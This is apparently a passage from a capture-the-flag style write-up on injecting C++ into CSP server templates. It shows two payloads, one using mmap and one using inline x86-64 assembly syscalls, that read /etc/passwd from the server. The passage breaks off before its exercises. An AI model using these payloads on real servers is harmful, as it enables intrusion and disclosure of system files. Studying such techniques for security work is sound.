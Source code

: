 ```csp
```

Handy Reference: [Linux x86 Syscalls - filippo.io](https://filippo.io/linux-syscall-table/)

#### File Read with `mmap`

After opening and creating a file descriptor via `open` or `syscall(2, ...)`, we can also use `mmap` to perform a read instead of the usual `read`.

```csp
<%inc
#include <unistd.h>
#include <sys/mman.h>
%>
<%c++
    $$ << (char*)mmap(NULL, 99, 1, 2, syscall(2,"/etc/passwd", 0), 0);
    // mmap(addr, length, memory_protection, flags, fd, offset)
%>
```

#### File Read/Write, RCE via Inline Assembly

Pretty much any syscall in C can be translated to assembly, and GCC's extended assembly makes it convenient to pass input and output.

The following CSP opens and reads `/etc/passwd` into a buffer, then outputs it. This is equivalent to the open-read idiom we used above.

```csp
<%c++
    char file[] = "/etc/passwd", buffer[256] = {0};
    asm(R"(
        mov $2, %%rax;
        lea (%0), %%rdi;
        mov $0, %%rsi;
        syscall;
        
        mov %%rax, %%rdi;
        mov $0, %%rax;
        lea (%1), %%rsi;
        mov $255, %%rdx;
        syscall
    )"
        : : "b" ( file ), "d" ( buffer )
    );
    $$ << buffer;
%>
```

`"b" ( file )` and `"d" ( buffer )` are inputs to our asm procedure. The letters `b` and `d` refer to the `%rbx` and `%rdx` register. I chose these registers specifically to avoid conflicts. (`%rax` gets written with `2` on the first line, `%rcx` gets overwritten by the first syscall.)

Exercises for the reader:
